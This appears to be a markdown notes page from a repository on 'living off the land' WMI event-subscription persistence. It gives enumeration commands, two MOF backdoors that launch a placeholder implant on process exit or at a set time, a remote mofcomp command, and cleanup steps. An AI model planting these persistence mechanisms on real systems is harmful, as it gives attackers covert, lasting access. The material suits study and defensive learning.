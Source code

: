 # Living off the Land

TODO: Consult cybereason blog post to replicate the attacks (refer to the links)

## 01 - Command Prompt

Query information about the namespaces for the WMI functions that will help us to make a persistence mechanism.

List the Root namespace

```
C:\> wmic.exe /namespace:\\root path __namespace
```

## 02 - PowerShell

Query information about the namespaces for the WMI functions that will help us to make a persistence mechanism.

List the Root namespace

```powershell
PS C:\> Get-CimClass

PS C:\> Get-CimClass -Namespace ROOT/CIMV2 | Where-Object CimClassName -like Win32*

PS C:\> Get-WmiObject -namespace "root" -class "__Namespace" | select Name

PS C:\> Get-CimInstance -namespace "root" -class "__Namespace" | Select-Object Name
```

List the names for the Subscription

```powershell
PS C:\> Get-WmiObject -Namespace root\Subscription -list

PS C:\> Get-CimInstance -Namespace root\Subscription -list
```

Display the information of the __EventFilter class and it's ability to trigger any `MSFT_SCMEventLogEvent`

```powershell
PS C:\> Get-WmiObject -Namespace root\Subscription -Class __EventFilter

PS C:\> Get-CimInstance -Namespace root\Subscription -Class __EventFilter
```

- Same thing with the __EventConsumer that has the `SCM Event Log Consumer` for an event that will happen

```powershell
PS C:\> Get-WmiObject -Namespace "root\Subscription" -Class __EventConsumer

PS C:\> Get-WmiObject -Namespace root\Subscription -Class __FilterToConsumerBinding
```

Spawn an implant when a program such as a calculator gets terminate if no process is present.

```
C:\> type wmievent.mof
#pragma namespace ("\\\\.\root\\subscription)

instance of CommandLineEventConsumer as $Cons {
    Name = "TestConsumer"
    CommandLineTemplate="C:\\path\\to\shell.exe";
};

Instance of __EventFilter as $Filt {
    Name = "TestFilter";
    Query = "Select * From __InstanceDeletionEvent WITHIN 5 "
            "Where TargetInstance ISA \ "Win32_Process\" "
            "AND TargetInstance.Name = \"win32calc.exe\"";
    QueryLanguage = "WQL";
    EventNamespace = "root\\subscription";
};

Instance of __FilterToConsumerBinding {
    Filter = $Filt;
    Consumer = $Cons;
}
```

Spawn an implant when a specific time has been reached.

```
C:\> type wmievent.mof
#pragma namespace ("\\\\.\root\\subscription)  
  
instance of CommandLineEventConsumer as $Cons {  
    Name = "TestConsumer"  
    CommandLineTemplate="C:\\path\\to\shell.exe";  
};  
  
Instance of __EventFilter as $Filt {  
    Name = "TestFilter";  
    Query = "Select * From __InstanceModificationEvent "  
            "Where TargetInstance ISA \ "Win32_LocalTime\" "  
            "AND TargetInstance.Hour = 1 "  
            "AND (TargetInstance.Minute = 24 "  
            "OR TargetInstance.Minute = 25 "  
            "OR TargetInstance.Minute = 26) "  
            "AND TargetInstance.Second = 30 ";  
    QueryLanguage = "WQL";  
    EventNamespace = "root\\cimv2";  
};  
  
Instance of __FilterToConsumerBinding {  
    Filter = $Filt;  
    Consumer = $Cons;  
}
```

Execute the MOF script.

```
C:\> mofcomp wmievent.mof
```

You can execute it remotely without touching the disk.

```
C:\> mofcomp -N \\<IP>\root\subscription wmievent.mof
```

### 2.1 - Clean up the backdoors

- Query the namespace for `__EventFilter`

```powershell
PS C:\> Get-WmiObject -namespace root\subscription -class __EventFilter

PS C:\> Get-CimInstance -namespace root\subscription -class __EventFilter
```

- Delete the name of the Filter

```
C:\> wmic /namespace:"\\root\subscription" path __EventFilter where name="TestFilter" delete
```

```powershell
PS C:\> Get-WmiObject -namespace root\subscription -class __EventFilter -Filter "Name='TestFilter'" | Remove-WMIObject -Verbose

PS C:\> Get-CimInstance -namespace root\subscription -class __EventFilter -Filter "Name='TestFilter'" | Remove-WMIObject -Verbose
```

- Query to double check if it's deleted

```powershell
PS C:\> Get-WmiObject -namespace root\subscription -class __EventFilter

PS C:\> Get-CimInstance -namespace root\subscription -class __EventFilter
```

- Delete the name of the Filter

```
C:\> wmic /namespace:"\\root\subscription" path __FilterToConsumerBinding where Filter="__EventFilter.Name='TestConsumer'" delete
```

TODO: Convert this to Get-CimInstance

```powershell
PS C:\> Get-WmiObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path like 'TestConsumer'" | Remove-WMIObject
```

---
## References

- [LOFLCAB: WMIC](https://lofl-project.github.io/loflcab/Binaries/wmic/)

- [Pentestlab Blog: Persistence WMI Event Subscription](https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/)

- [Cybdefnp: Malware Persistence in WMI](https://cybdefnp.wordpress.com/2020/07/05/malware-persistence-in-wmi/)

- [PDQ: Powershell Guide Get-CimInstance and Get-WmiObject](https://www.pdq.com/blog/powershell-guide-get-ciminstance-and-get-wmiobject/)

- [in.security: An intro into abusing and identifying WMI Event Subscriptions for persistence](https://in.security/2019/04/03/an-intro-into-abusing-and-identifying-wmi-event-subscriptions-for-persistence/)

- [SS64: Get-CimInstance](https://ss64.com/ps/get-ciminstance.html)

- [FuzzySecurity: Windows Userland Persistence Fundamentals](https://fuzzysecurity.com/tutorials/19.html)